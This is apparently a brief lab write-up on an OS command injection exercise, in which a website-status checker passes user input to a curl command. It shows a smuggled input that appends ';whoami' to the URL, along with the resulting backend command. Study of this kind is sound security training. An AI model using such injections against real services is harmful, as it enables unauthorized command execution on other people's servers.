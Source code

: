 <figure><img src="../../../.gitbook/assets/image (228).png" alt=""><figcaption></figcaption></figure>

We have this website that gives us the status of a website we input, and we can see the command the server runs in background  so it is not blind, we can easily bypass the security:

to make the backend run a &#x20;

```
Command: curl -I -s -L https://tcm-sec.com; whoami;echo HTTP/ | grep "HTTP/" 
```

we need to input

```
https://tcm-sec.com; whoami;echo HTTP/
```
